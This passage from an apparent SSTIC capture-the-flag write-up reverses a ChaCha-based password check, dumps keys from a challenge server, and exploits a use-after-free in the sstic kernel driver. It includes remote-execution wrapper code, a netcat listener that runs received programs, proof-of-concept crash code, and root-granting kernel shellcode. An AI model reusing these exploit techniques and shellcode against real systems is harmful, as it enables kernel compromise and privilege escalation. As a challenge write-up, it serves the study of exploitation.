So, the algorithm performs a bunch of invertible transforms on the data, then combines it with some constants from [0x100] to produce the final output. This is not hard to reverse ([`stage4/solvepw.py`](files/stage4/solvepw.py)):

```python
import numpy as np

def round(r0, r1, r2, r3):
    r0 += r1
    r3 ^= r0

    r2 += r3
    r1 ^= r2
    r1 = (r1 << 12) | (r1 >> 20)

    r0 += r1
    r3 ^= r0
    r3 = (r3 << 8) | (r3 >> 24)

    r2 += r3
    r1 ^= r2
    r1 = (r1 << 7) | (r1 >> 25)
    return r0, r1, r2, r3

def unround(r0, r1, r2, r3):
    r1 = (r1 >> 7) | (r1 << 25)
    r1 ^= r2
    r2 -= r3

    r3 = (r3 >> 8) | (r3 << 24)
    r3 ^= r0
    r0 -= r1

    r1 = (r1 >> 12) | (r1 << 20)
    r1 ^= r2
    r2 -= r3

    r3 = (r3 >> 16) | (r3 << 16)
    r3 ^= r0
    r0 -= r1

    return r0, r1, r2, r3

def munge(input):
    r0, r1, r2, r3 = [c.copy() for c in np.frombuffer(input, dtype='<u4').reshape((4, 4))]
    for i in range(20):
        if i % 2 == 0:
            r0, r1, r2, r3 = round(r0, r1, r2, r3)
        else:
            r1 = np.roll(r1, -1)
            r2 = np.roll(r2, -2)
            r3 = np.roll(r3, -3)
            r0, r1, r2, r3 = round(r0, r1, r2, r3)
            r3 = np.roll(r3, -1)
            r2 = np.roll(r2, -2)
            r1 = np.roll(r1, -3)

    r0[0] += 0x2000
    r1[0] += 0x2010
    r2[0] += 0x2020
    r3[0] += 0x2030
    buf = bytearray(bytes(r0) + bytes(r1) + bytes(r2) + bytes(r3))
    xor = open('0x100_data.bin', 'rb').read()
    for i in range(64):
        buf[i] ^= xor[i]
    return buf

def unmunge(input):
    buf = bytearray(input)
    xor = open('0x100_data.bin', 'rb').read()
    for i in range(64):
        buf[i] ^= xor[i]
    r0, r1, r2, r3 = [c.copy() for c in np.frombuffer(buf, dtype='<u4').reshape((4, 4))]
    r0[0] -= 0x2000
    r1[0] -= 0x2010
    r2[0] -= 0x2020
    r3[0] -= 0x2030
    for i in reversed(range(20)):
        if i % 2 == 0:
            r0, r1, r2, r3 = unround(r0, r1, r2, r3)
        else:
            r3 = np.roll(r3, 1)
            r2 = np.roll(r2, 2)
            r1 = np.roll(r1, 3)
            r0, r1, r2, r3 = unround(r0, r1, r2, r3)
            r1 = np.roll(r1, 1)
            r2 = np.roll(r2, 2)
            r3 = np.roll(r3, 3)

    return bytes(r0) + bytes(r1) + bytes(r2) + bytes(r3)

print(munge(b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa').hex())
print(unmunge(bytes.fromhex('f235422649261a9207aa8139f3b6fc9f85d5084c8b0824e80514e4b2223d802a6a5728abda4dcaf51db348c575a7b6a14847ef8a4fc4e13ca96356c2f30a1def')))
output = unmunge(b'\xff' * 48 + b"EXECUTE FILE OK!")
open('pw.bin', 'wb').write(output + bytes.fromhex('0e 03 05 0a 08 04 09 0b 00 0c 0d 07 0f 02 06 01'))
```

Here, I'm using NumPy to simulate the SIMD operations. The resulting password is (`solve4/pw.bin`):

```
00000000: 6578 7061 6e64 2033 322d 6279 7465 206b  expand 32-byte k
00000010: 62cc 273d e890 5581 c4fa c91c be45 1034  b.'=..U......E.4
00000020: 1a09 16ca fa05 14f6 80e4 604a a897 bad4  ..........`J....
00000030: ad62 a02d cd9b 3574 87f6 7ab4 7134 b697  .b.-..5t..z.q4..
00000040: 0e03 050a 0804 090b 000c 0d07 0f02 0601  ................
```

Sending this to reqno 3 works, and lets us upload a binary to run!

(Side-note: the term "expand 32-byte k" in the password indicates that the algorithm I just reversed is actually just the ChaCha block function, with a little bit of extra obfuscation at the very end).

### Remote Code Execution on the Key Server

Now, we have the ability to upload a binary up to 900000 bytes in size to the server, and obtain the response. I wrote a quick wrapper to run a program and obtain the output:

```python
from pwn import *
import sys

s = remote('62.210.125.243', 1337)
sig = s.recvn(4)
assert sig == b'STIC'

# key obtained through the stage3 whitebox crypto exploit, needs to be refreshed each hour
key = bytes.fromhex('0d548ffc7f5f517743387e1d6477ea75f8bf6a60')

def run_exec(prog):
    assert len(prog) <= 900000

    s.send(b'\x03' + key)
    s.send(open('pw.bin', 'rb').read())
    res = s.recvn(1)
    if res[0] != 10:
        raise Exception("auth failed, error %d" % res[0])
    s.send(p64(len(prog)))
    s.send(prog)
    r = s.recvuntil('---EXEC OUTPUT END---\n').decode('latin1')
    print(r)

run_exec(open('./prog', 'rb').read())
```

Luckily, 900000 bytes is enough that I can compile a binary with normal GCC and statically link it to glibc (the binaries are about 750 KiB). After some initial testing with a "Hello World" program, I did a bit of experimentation and found that `system()` works just fine because of the `busybox` on the system, as long as the output does not exceed 4096 bytes. However, using `ls`, I did not find anything useful on the filesystem. 

Because we can now run arbitrary code, we can interact with the `/dev/sstic` without the restrictions imposed by the service. This means we should be able to extract any keys we want! So, write a quick program to grab every single key we can by performing the appropriate `ioctl` calls to the device ([`stage4/prog.c`](files/stage4/prog.c)):

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <fcntl.h>

static void getkey(uint64_t ident) {
    int fd = open("/dev/sstic", 2);
    if(fd < 0) {
        printf("failed to open /dev/sstic\n");
        return;
    }
    uint64_t buf[3];
    buf[0] = ident;
    if(ioctl(fd, 0xC0185304uLL, buf) < 0) {
        printf("failed to ioctl for key %016lx: %d\n", ident, errno);
        close(fd);
        return;
    }
    close(fd);
    printf("key for %016lx: ", ident);
    unsigned char *c = &buf[1];
    for(int i=0; i<16; i++) {
        printf("%02x", c[i]);
    }
    printf("\n");
}

int main() {
//     system("/bin/dmesg | tail -c +27000 | head -c 3000");
    getkey(0x68963B6C026C3642);
    getkey(0x675160efed2d139b);
    getkey(0x6fc51949a75bfa98);
    getkey(0x583c5e51d0e1ab05);
    getkey(0x08ABDA216C40B90C);
    getkey(0x1D0DFAA715724B5A);
    getkey(0x3A8AD6D7F95E3487);
    getkey(0x325149E3FC923A77);
    getkey(0x46DCC15BCD2DB798);
    getkey(0x4CE294122B6BD2D7);
    getkey(0x4145107573514DCC);
    getkey(0x6811AF029018505F);
    getkey(0xD603C7E177F13C40);
    getkey(0xED6787E18B12543E);
    getkey(0x675B9C51B9352849);
    getkey(0x3B2C4583A5C9E4EB);
    getkey(0x58B7CBFEC9E4BCE3);
    getkey(0x272FED81EAB31A41);
    getkey(0xFBDF1AF71DD4DDDA);
    getkey(0x59BDD204AA7112ED);
    getkey(0x75EDFF360609C9F7);
}
```

This produces the following output:

```
---EXEC OUTPUT START---
key for 68963b6c026c3642: 696464b99ff1e025105f6235fa67c91d
key for 675160efed2d139b: 99a2ded8dde36c78fc5dc65053d9f512
key for 6fc51949a75bfa98: 31b2a4202f39857169fa60e15b5a3559
key for 583c5e51d0e1ab05: ec55393766d70f07b8e5e44dab0accb4
key for 08abda216c40b90c: e5ccff13eb6e312b33b452ecbc0af0ac
key for 1d0dfaa715724b5a: 6b636b81619f2088489246eb2cfb6e23
key for 3a8ad6d7f95e3487: 682e887985c63472dc0271d9e5210636
key for 325149e3fc923a77: 72b79ca42d9034260a463a195aef53b7
key for 46dcc15bcd2db798: 5a24c3efef33c97cdb0e7dbf2bf9579b
key for 4ce294122b6bd2d7: d0bdadd7940e77f6e41c4ec8f3174589
key for 4145107573514dcc: f9f81180deb3fb4a1132d794536b7832
key for 6811af029018505f: 64670bf9fe8ac6c438a9c1f55465088e
failed to ioctl for key d603c7e177f13c40: 22
failed to ioctl for key ed6787e18b12543e: 22
key for 675b9c51b9352849: c418344d2d8f364e0b1f60c583d126d7
key for 3b2c4583a5c9e4eb: 70cbe72a019394362f46372444fc68f9
key for 58b7cbfec9e4bce3: b56a23a57f5785ef2f767737ff0e79f4
key for 272fed81eab31a41: e3c38d31c857e42c62aa250b61fb662e
failed to ioctl for key fbdf1af71dd4ddda: 22
key for 59bdd204aa7112ed: c370e96e49daefaa4b22784111c4dc79
key for 75edff360609c9f7: 115e8adf8927887fe629bfd92829c11b
---EXEC OUTPUT END---
```

Well, we did get a bunch of keys, but there are still 3 keys that we could not obtain! With the keys we did get, we now have the decryption for the `admin` folder (ID `75edff360609c9f7`):

```
[{"name": "bfed24eb16bacb67a1dd90468223f35d5d5f751ca1f1323b7943918ca2b3ae18.enc", "real_name": "CO_favorite_clip", "type": "dir_index", "perms": "0000000000000000", "ident": "59bdd204aa7112ed"}, {"name": "6e875d839cac95d7ce50da2270064752ebf7e248e3e71498bb7ce77986d3b359.enc", "real_name": "SSTIC{377497547367490298c33a98d84b037d}.mp4", "type": "mp4", "perms": "0000000000000000", "ident": "675b9c51b9352849"}]
```

Nice! The flag for Stage 4 is `SSTIC{377497547367490298c33a98d84b037d}`. Now onto the last stage!

## Stage 5

We failed to obtain three keys from the hardware device. All three keys correspond to `ident`s where the high bit was set. As indicated in the service binary, these keys are "prod" keys which cannot be obtained while the device is in "debug mode". We're going to have to dig into the device's driver (`sstic.ko`) to figure out what's going on. The full decompilation can be found in [`stage5/sstic.ko.c`](files/stage5/sstic.ko.c) and [`stage5/sstic.ko.h`](files/stage5/sstic.ko.h).

### Reversing the Kernel Module

`sstic.ko` is a Linux kernel module, which is mostly unstripped. Drivers rely heavily on registering various objects in the kernel, and using tables of function pointers to tell the kernel which functions to call for those objects. The driver's entry point, `init_module`, registers a "character device" called `sstic`, which is instantiated by the `init` script into `/dev/sstic` (this linkage is made through the device major/minor code). It also registers a PCI driver, which associates with a specific hardware device on the PCI bus. This hardware device is not present in the QEMU emulator, so none of the driver's PCI functions can be tested locally.

The PCI driver structure (`struct pci_driver`) specifies a `pci_probe` function, 0xc0a (which I called `sstic_pci_probe`). This function gets called when the device is detected on the PCI bus. `sstic_pci_probe` uses `pci_iomap` to map one the device's PCI BAR number 0 into virtual memory. This allows the kernel to use a range of memory addresses to communicate with the device (reads and writes to the addresses will be routed into read/write operations to the device's hardware registers). `sstic_pci_probe` then "enables debug mode" by writing a 1 to a specific hardware register. There are no functions in the driver which will disable debug mode.

The device file, `/dev/sstic`, exposes four operations via the `file_operations` structure: `ioctl`, `mmap`, `open` and `close` (`release`). The flow of e.g. a `decrypt` operation looks like this (simplified to show the main system calls):

1. User code (e.g. service) calls `fd = open("/dev/sstic", O_RDWR)`
    1. In the kernel, `sstic_open` is called to handle the device-specific initialization. This function allocates an `sstic_session` structure from a kernel cache (a chunk of identically sized memory blocks for efficient allocation) and binds it to the `private_data` of the kernel `struct file` structure.
2. User code calls `int req[6] = {1, 3}; ioctl(fd, 0xC0185300, req);`
    1. In the kernel, `sstic_ioctl` is called to handle this request. It copies 24 bytes from the `ioctl` argument, then dispatches based on the operation.
    2. 0xC0185300 corresponds to `alloc_region`, which allocates a region of memory that will be shared with the hardware device.
    3. It calls `alloc_phy_region` to create a `struct sstic_phy_region` for this region, and then uses the kernel `alloc_pages_current` function to allocate as many pages as the user requested (here, 1 page)
    4. The driver also allocates a `struct sstic_region` to track this region and assigns an ID to that region.
    5. The driver returns the region ID by copying back to the user's request buffer.
3. User code allocates another region via `int req[6] = {1, 1}; ioctl(fd, 0xC0185300, req);`.
4. User code associates the two regions by calling `int req[6] = {id0, 0}; ioctl(fd, 0xC0185302, req);` and `int req[6] = {id1, 1}; ioctl(fd, 0xC0185302, req);`.
    1. `sstic_ioctl` handles this request again, dispatching to `ioctl_assoc_region`.
    2. `ioctl_assoc_region` puts the `sstic_region` referred to by the ID into the session structure. I referred to these as "channels"; there are a total of 4 channels, and they have specific meanings to the hardware device.
5. User code calls `mmap` to map the two regions into its own virtual address space
    1. The kernel does a bunch of setup work, and eventually dispatches to `sstic_mmap` to handle the actual association between the user's virtual address space and the memory managed by the driver.
    2. `sstic_mmap` looks up the region via the mmap offset parameter, which encodes the region ID, and then allocates a *new* `struct sstic_phy_region` which shares the pages from the existing `phy_region`.
    3. `sstic_mmap` configures the `vm_ops` field of the kernel's `vm_area_struct`, which tells the kernel how to handle various events related to the memory region.
6. User code reads or writes the mapped regions (in `decrypt`, it writes the data to be decrypted along with the timestamp `ident`).
    1. This causes a page fault the first time the memory is accessed. The kernel responds by calling `sstic_vm_fault` via `vm_ops`, which is responsible for actually mapping the page into the user's virtual memory space.
    2. `sstic_vm_fault` simply grabs the physical page (allocated with `alloc_pages_current`) and inserts it into the user's memory space using `vm_insert_page`.
7. The user code calls `int req[6] = {1}; ioctl(fd, 0xC0185303, req);` to trigger a command on the device.
    1. `sstic_ioctl` dispatches this command to `ioctl_submit_command`.
    2. `ioctl_submit_command` writes the addresses and sizes for the allocated channels to the device's hardware registers, then writes a few registers to kick off the actual command. The hardware device can use DMA to directly interact with the channel memory.
    3. `ioctl_submit_command` reads another hardware register and returns the result; presumably this read stalls until the actual command is complete. (In all likelihood, the "hardware device" is just implemented in a modified QEMU so it effectively completes the command immediately from the kernel's point of view; a real device would probably have an interrupt to signal completion).
8. The user code calls `munmap` to unmap the memory regions.
    1. The kernel will call `sstic_vm_close` to handle the removal of the virtual memory region.
    2. `sstic_vm_close` simply decrements the reference count of the `struct sstic_phy_region`, and frees it if the reference count is zero.
9. The user code calls `close` to close the device session.
    1. The kernel calls `sstic_release` via the `file_operations` in order to clean up the session, which deletes all the regions.

That about sums up all of the interactions between the user code and the kernel driver. Phew!

There's no obvious bugs which could be used to simply turn off the debug flag. `ioctl_get_key` is responsible for the prod key check, but there's no obvious way to bypass it. So, based on the challenge so far, it seems like we will have to exploit this driver in order to bypass `ioctl_get_key`'s check and get our precious prod keys.

One of the mysteries in reversing the code was why `sstic_mmap` allocates a *separate* `sstic_phy_region` structure instead of just reusing the one from the main `sstic_region`? Then, I noticed the function `sstic_vm_split`. This function handles the `split` operation in the `vm_ops`. `vm_ops->split` is called by `__split_vma` in the kernel (https://elixir.bootlin.com/linux/v5.10.31/source/mm/mmap.c#L2728) which is in turn called during `munmap` - this handles the case where the user code *partially* unmaps a virtual memory area (VMA) - for example, if they map 4 consecutive pages from a driver and later decide to unmap only the first 2.

In Linux, it is possible to `munmap` any range of memory, as long as it is page-aligned, even if it overlaps multiple VMAs or only partially unmaps a VMA. In order to handle the partial-unmap case, the kernel needs to *split* the VMA, and it needs to notify the driver that this has occurred because the VMA boundaries in the `vm_area_struct` structure will change. Furthermore, because this generates two distinct VMAs, the kernel ends up needing to call `vm_ops->open` on the "new" VMA in order for the driver to update reference counts and internal structures.

In the `sstic` driver, all `split` does is simply record the split information on the `sstic_phy_region` for that allocation. Then, `sstic_vm_open` does all the heavy lifting, dividing the pages of the `sstic_phy_region` between the old and new allocations. So far, everything is reference counted correctly, and the pages are properly split. The region that will be `munmap`'d will then shortly be closed via `sstic_vm_close`, and the `sstic_phy_region` will be freed and deleted, and the reference counts on its pages decremented.

This figure sums up the relationship between the different kernel and driver structures:



I wrote a program to play with the driver's memory allocation properties. In order to test it locally (since it doesn't involve the hardware device), I modified the `init` script (and rebuilt the ramdisk) to do the following instead of running the service:

```bash
while true; do
  echo "=== Waiting for program on port 1337 ==="
  nc -lp 1337 < /dev/null > prog
  chmod +x prog
  ./prog
done
```

Then, I could just send it programs via port 1337 which it would execute (and I let the script run as root so I could interact with `/proc`). I played around with `munmap` a bit, and eventually ended up with a very interesting program ([`stage5/poc1.c`](files/stage5/poc1.c)):

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>

#define BASEADDR ((void *)(0x88000000ULL))

static int sstic_alloc_region(int fd, int size, int prot) {
    int cmd[6] = { size, prot };
    if(ioctl(fd, 0xC0185300uLL, cmd) < 0) {
        printf("failed to ioctl alloc_region: %d\n", errno);
        return -1;
    }
    return cmd[2];
}

int main() {
    int fd = open("/dev/sstic", 2);
    int res;
    if(fd < 0) {
        printf("failed to open /dev/sstic\n");
        return -1;
    }

    int npages = 4; // must be a power of two
    int prot = PROT_READ | PROT_WRITE;
    int addr = sstic_alloc_region(fd, npages, prot);
    printf("region: %x\n", addr);
    uint8_t *vaddr = mmap(NULL, npages << 12, prot, MAP_SHARED, fd, addr);
    printf("mmap result: %p\n", vaddr);
    fflush(stdout);
    system("cat /proc/$PPID/maps");
    res = munmap(vaddr + 0x1000, 0x1000);
    printf("munmap result: %d\n", res);
    system("cat /proc/$PPID/maps");

    uint8_t *vaddr2 = mmap(NULL, npages << 12, prot, MAP_SHARED, fd, addr);
    system("cat /proc/$PPID/maps");
}
```

This program causes a *kernel panic*! I set up some debugging assistance by adding `nokaslr` to the kernel command line to disable address randomization, and `-s` to the QEMU command line to enable the GDB stub. I used the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) project to turn the kernel into a loadable ELF for GDB, and then used this `gdbinit` script:

```
target remote tcp:localhost:1234
symbol-file vmlinux.elf
add-symbol-file rootfs/lib/modules/sstic.ko 0xffffffffc0000000
break oops_begin
break exc_double_fault
```

In debugging, I found that the crash was being caused when `sstic` attempts to `memmove` -8 bytes, which is interpreted as a very large 64-bit number; this faults due to running off the end of the allocated memory. I had discovered a bug in the `sstic` driver!

The bug turns out to be the fact that the driver does not reset the split information after performing the split in `sstic_vm_open`. This means that the old `phy_region`, referred to by the old `vm_area_struct`, is still primed to perform a split upon the next `sstic_vm_open`, even when no split is taking place. I was getting a kernel panic because `system` calls `fork`, which makes a copy of all the VMAs - which calls `sstic_vm_open` to duplicate the VMA!

This is a serious bug. `sstic_vm_open` makes copies of pages without adjusting their reference counts, under the assumption that it is simply dividing the pages between the old and new VMAs. However, if a split has already occurred, the pages that are copied may already have been split to a new VMA. This would cause two `phy_region`s to refer to pages without a corresponding increase in the reference counts; when *either* `phy_region` is destroyed, the reference counts would be decremented, *causing the pages to be prematurely freed*. When this happens, the kernel can reuse the pages for any purpose - even while the pages are still being referred to by the driver or user program, causing a use-after-free situation.

### Exploiting the Driver Bug

Let's look at the driver structures in a bit more detail. The main structure of interest is the `struct sstic_phy_region`:

```c
struct sstic_phy_region {
  void *splitstart;
  void *splitend;
  int npages;
  int refcount;
  struct page *pages[];
};
```

The structure is dynamically allocated with an inline array of `struct page` pointers at the end. `struct page` is a kernel data structure which tracks information about each page of physical memory. `splitstart` and `splitend` are set to the boundaries of a split by `sstic_vm_split` (`vm_ops->split`).

`sstic_vm_open` is called called in two circumstances: when a memory mapping is copied (e.g. during fork), and when a memory mapping is split (e.g. during unmap). When split, the VMA argument will be the *new* VMA. The logic of the function goes as follows:

- If `phy->splitend` is unset, then this segment is not split: just bump the refcount and return.
- Allocate a new phy with the new number of pages `newpages`
- If `splitend` is `<=` the new start then it assumes that the new VMA is the high side of the split. Let `nsplit` be the number of pages in the split (`splitend - splitstart`):
    - `newphy->pages[:newpages] = oldphy->pages[nsplit:nsplit+newpages]`
    - `oldphy->npages = nsplit`
    - This branch seems exploitable if `nsplit+newpages > oldphy->npages`, because old (truncated) pages from `oldphy->pages[oldphy->npages:]` will be copied to `newphy`.
- Otherwise, `splitend` is `>` the new start, so the new VMA is the low side of the split:
    - `newphy->pages[:] = oldphy->pages[:newpages]`
    - `oldphy->pages[:] = oldphy->pages[newpages:]`
    - `oldphy->npages -= newpages`
    - This branch crashes if `newpages > npages` as it attempts to copy a negative-sized range (`[newpages:npages]`). It does not appear exploitable.

If a split occurs, `splitstart` and `splitend` are not reset in the old `phy_region` (the new VMA uses a brand-new `phy_region` with no split information). Therefore, if `sstic_vm_open` is called again on the old VMA without an intervening `sstic_vm_split`, a split will occur again. However, under most circumstances, the old VMA's boundaries will be equal to `splitstart` and `splitend`, which will cause the second branch to be triggered, causing an unexploitable panic.

In order to make the `sstic_vm_open` enter the first branch without splitting, we can make use of the `mremap` Linux system call. `mremap` allows the user program to *move* a range of memory address mappings to a new range. If we use `mremap` to remap the old VMA to a *higher* address in memory, then we can make `sstic_vm_open` believe that `splitend` (the end of the old split range) is below the new starting address.

Developing this exploit was pretty tricky. Unfortunately, I did not have a great debugging setup: I did not enable the kernel oops handler, so I had to debug all oops by tracing manually in GDB which was pretty inefficient. Additionally, being unfamiliar with the kernel code, I had to make frequent trips to LXR to read kernel source code and figure out how the memory subsystem handled memory mapping. In [`stage5/poc2.c`](files/stage5/poc2.c), [`stage5/poc3.c`](files/stage5/poc3.c) and [`stage5/poc4.c`](files/stage5/poc4.c), you can see all of the intermediate exploit stages as I delved into these issues.

The basic idea of the attack is to map pages into the user memory, then fault them in so that the pages are physically associated with the user's virtual memory space. Then, by exploiting the bad split logic in the `sstic` driver, we'll drop the reference counts to zero, allowing the kernel to reuse the physical pages while they're still mapped into the user's address space. If we can then get the kernel to allocate kernel data structures in those physical pages, we'll have full read/write to that kernel memory from the user program via the mapped pages. Two issues I ran into: first, we actually have to exploit the split logic twice to decrement the reference count twice, since the page is referenced by both the `phy_region` and by the page tables (when the page is faulted in via `vm_insert_page`); second, we have to make sure not to free any other pages, since the kernel might reuse those pages first.

Here's the full attack plan:

1. Allocate a region with the driver
2. `mmap` the region into memory
3. Fork a child process which will pause on startup
    1. Since no split information is recorded yet, the VMA in the child will reference the same `phy_region` as the parent!
4. `munmap` the upper half of the region
    1. This causes splitstart, splitend to be set to the lower half, and `vm_open` will be called on the new upper half.
    2. This enters the first branch, causing `oldphy->npages` to be halved and splitting off the high half of the pages to the new VMA.
    3. Then, the new VMA is immediately closed, causing the high half of the pages to lose a reference count.
5. `mremap` the lower half of the region to the former upper half addresses
    1. This causes `vm_open` to be again called on the "upper half", which is indistinguishable from the split case.
    2. The split will effectively happen again, splitting off the now-unreferenced "high half" of the pages into the new VMA
    3. The upper half VMA now contains pages with a "free" reference count (1 reference count missing)
6. Fault the pages in from the upper half by accessing them.
    1. `vm_insert_page` will fail if the pages have a reference count of zero, so we need the reference count to be positive. Two references exist: one from the child process, and one from the `phy_region` via the `sstic_session` (since the fd is still open).
7. Delete the region with the driver, removing one reference from the pages.
8. Signal the child process to `munmap` the upper half of its pages, which causes the reference count to drop to zero. Note that the child process still retains a reference count on the lower half.
9. Wait for a brief period of time (a few seconds) for the kernel's page reclamation process (possibly kswapd) to reclaim the freed pages
10. Trigger lots of kernel allocations (I opened a bunch of files) and see if the leaked pages contain kernel pointers
11. Exploit the resulting read/write to kernel memory.

### Exploiting Kernel Read/Write

By exploiting the `vm_split` bug, we have several physical pages mapped to a virtual address range in our process which are marked as free (refcount of zero). Any process, including the kernel, can now allocate those pages, which means that our user program now has read/write access to physical RAM pages that are being used by the kernel. By opening lots of files, we force the kernel to allocate a lot of `struct file` objects, some of which will end up in the pages that are "leaked" into the user program.

What I did was to open two different kinds of files: `/etc/passwd`, a normal disk file, and `/dev/sstic`, the SSTIC device. Both kinds of `struct file`s will show up in the leaked pages, so by reading their `f_ops` members (the pointer to the file operations), we can leak both the randomized base address (KASLR) of the kernel itself and of the `sstic` module. We can also leak the kernel virtual addresses corresponding to our physical pages by examining the value of linked list pointers in the file structures. Finally, we can now *modify* the `f_ops` pointer, letting us control what functions are called when we use system calls on these files from our user process. This is a very powerful set of capabilities!.

The one limitation is that most `f_ops` functions take a `file *` as the first argument, which somewhat limits what we can call. Furthermore, SMEP and SMAP are on, which prohibit the kernel from executing code from userspace addresses (otherwise we could just allocate shellcode in our program and tell the kernel to call it). I came up with several options of possible things to try:

- We could find a jump gadget that will allow us to control `rdi` and call a more suitable function: for example, if we have `rdi` control, we can call `prepare_kernel_cred(0)` and then `commit_creds(result)`. However, all the gadgets I found only allow `edi` control with some `jmp` relative to `rsi` - this is good because we can call `prepare_kernel_cred(0)`, but we can't quite call `commit_creds(result)` unfortunately. I spent a while on this approach but didn't quite make it work.
- We could find a stack pivot and do ROP. This is fairly promising because we control a lot of things here; notably, it should be possible to get a thread stack allocated into the leaked pages, which would give us the ability to read/write a kernel stack. But, I know that kernel ROP can be very tricky to get right because of the need to safely return out of the kernel at the end.
- We could find a `cr4` write gadget, flip the SMEP bit off, and then set `f_ops` to point at some usermode function. But, this is a new kernel on which the only cr4 write in the whole kernel is in the `native_write_cr4` function - and that has a check that prohibits unsetting the SMEP bit.
- We could try to use BPF to get one of the leaked pages allocated as BPF JIT memory, then overwrite it with shellcode. This was actually very promising, but I was pretty unfamiliar with BPF. I probably would have gone down this route if nothing else worked.
- Finally, maybe we could just find suitable functions to call in the kernel itself. There's so many functions in the kernel - surely some must be suitable for our purposes?
    - Maybe we just use the `/dev/kmem` I/O functions so we can directly read/write kernel memory from our fds? But, unfortunately, `/dev/kmem` isn't compiled into the kernel.
    - Maybe we just use `/dev/mem` and read/write physical memory? But, it has a new check which basically makes it entirely useless (you can't access I/O memory nor RAM, so that doesn't leave much to access).

Finally I hit on an idea. The principle behind using BPF was to create some executable memory that we can read/write. What if we could make our own executable memory? I thought of the usual `mprotect` approach when exploiting user programs. It turns out that the kernel has an equivalent for `mprotect`: `set_memory_x(addr, numpages)`. This function will just mark a range of memory pages as executable. `addr` will have to be the address of our `struct file`, so we need a page-aligned `file` structure. That's not a problem - structures are going to be naturally 0x10-aligned, so one of our files at random will have the right alignment. To control the second argument, we just need to use a system call like `llseek`, which gives us full 64-bit control over the second argument. We'll build a fake `f_ops` structure which has `llseek` pointing at `set_memory_x`; once we call `llseek` on the right file, it will mark that page as executable. Then we just stick shellcode in there, edit `f_ops->llseek` again to point at the shellcode, and `llseek` the file to execute a shellcode function in kernel mode!

I wrote a bit of shellcode that uses `iowrite32` to flip the debug flag off on the sstic device, then calls `commit_creds(prepare_kernel_cred(0))` for good measure (giving the user process root credentials) ([`stage5/shellcode.s`](files/stage5/shellcode.s)):

```
BITS 64

push rbx

; iowrite32(0, sstic_pci_io_mem + 0x28)
mov rbx, [rel kernelbase]
mov rdi, 0
mov rsi, [rel ssticbase]
mov rsi, [rsi+0x26d8] ; sstic_pci_iomem
add rsi, 0x28
lea rax, [rbx+0x3F1E60] ; iowrite32
call rax

; commit_creds(prepare_kernel_cred(0))
xor rdi, rdi
lea rax, [rbx+0x89FA0] ; prepare_kernel_cred
call rax
mov rdi, rax
lea rax, [rbx+0x89D70] ; commit_creds
call rax

; return address of pci_iomem for debugging
mov rsi, [rel ssticbase]
lea rsi, [rsi+0x26d8] ; sstic_pci_iomem
mov rax, rsi

pop rbx
ret

kernelbase: dq 0x4141414141414141
ssticbase:  dq 0x4242424242424242

```

The full exploit ([`stage5/exploit.c`](files/stage5/exploit.c)) reads as follows. Note that it uses `vfork` to implement a variant of `system` to avoid duplicating the memory maps and inadvertently calling `sstic_vm_open`:

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/wait.h>
#include <unistd.h>

#define BASEADDR ((void *)(0x88000000ULL))

static int sstic_alloc_region(int fd, int size, int prot) {
    int cmd[6] = { size, prot };
    if(ioctl(fd, 0xC0185300uLL, cmd) < 0) {
        printf("failed to ioctl alloc_region: %d\n", errno);
        return -1;
    }
    return cmd[2];
}

static int sstic_del_region(int fd, int addr) {
    int cmd[6] = { addr };
    if(ioctl(fd, 0xC0185301uLL, cmd) < 0) {
        printf("failed to ioctl del_region: %d\n", errno);
        return -1;
    }
    return 0;
}

static void my_system(const char *cmd) {
    /* normal system() calls fork() which would call dup_mm and sstic_vm_open... */
    int pid = vfork();
    if(pid == 0) {
        execl("/bin/sh", "sh", "-c", cmd, NULL);
        exit(1);
    } else if(pid < 0) {
        printf("vfork failed\n");
        return;
    }
    int status = 0;
    waitpid(pid, &status, 0);
}

static void getkey(int fd, uint64_t ident) {
    uint64_t buf[3];
    buf[0] = ident;
    if(ioctl(fd, 0xC0185304uLL, buf) < 0) {
        printf("failed to ioctl for key %016lx: %d\n", ident, errno);
        close(fd);
        return;
    }
    close(fd);
    printf("key for %016lx: ", ident);
    unsigned char *c = (unsigned char *)&buf[1];
    for(int i=0; i<16; i++) {
        printf("%02x", c[i]);
    }
    printf("\n");
}

#define MAX_REGIONS 2 // 512
int regions[MAX_REGIONS];
uint8_t *vaddrs[MAX_REGIONS];

int main() {
    int fd = open("/dev/sstic", 2);
    int res;
    if(fd < 0) {
        printf("failed to open /dev/sstic\n");
        return -1;
    }

    /** Stage 1: Allocate a lot of regions **/
    const int npages = 32; // must be a power of two
    const int prot = PROT_READ | PROT_WRITE;
    const int halfalloc = (npages << 12) >> 1;
    int i;
    int num_regions;

    for(i=0; i<MAX_REGIONS; i++) {
        int addr = sstic_alloc_region(fd, npages, prot);
        if(addr < 0) {
            break;
        }
        printf("region %d: %x\n", i, addr);
        regions[i] = addr;
    }
    num_regions = i;

    /** Stage 2: mmap all the regions into memory so they can be manipulated with vm_* functions **/
    for(i=0; i<num_regions; i++) {
        uint8_t *vaddr = mmap(NULL, npages << 12, prot, MAP_SHARED, fd, regions[i]);
        if(vaddr == MAP_FAILED) {
            num_regions = i;
            break;
        }
        for(int j=0; j<(npages<<12); j += (1<<12)) {
            memset(vaddr + j, 0xc0 + (j >> 12), 1<<12);
        }
        munmap(vaddr, npages << 12);

        vaddr = mmap(NULL, npages << 12, prot, MAP_SHARED, fd, regions[i]);
        if(vaddr == MAP_FAILED) {
            num_regions = i;
            break;
        }
        printf("vaddr %d: %p\n", i, vaddr);
        vaddrs[i] = vaddr;
    }

    /** Stage 3: Create a child process that will help us decrement the reference counts. **/
    int p2c[2];
    int c2p[2];
    res = pipe(p2c);
    if(res < 0) {
        printf("perror failed: %d\n", errno);
        return -1;
    }
    res = pipe(c2p);
    if(res < 0) {
        printf("perror failed: %d\n", errno);
        return -1;
    }
    int pid = fork();
    if(pid < 0) {
        printf("fork failed: %d\n", errno);
        return -1;
    }
